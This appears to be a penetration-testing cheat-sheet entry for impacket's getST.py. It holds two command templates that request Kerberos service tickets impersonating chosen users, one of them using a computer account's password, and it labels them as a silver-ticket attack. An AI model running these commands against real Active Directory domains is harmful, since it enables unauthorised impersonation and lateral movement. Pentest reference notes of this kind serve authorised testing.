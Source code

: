 # getST (imp)

% impacket-kerberos, windows, kerberos, 88



## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```


## use silver ticket
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```
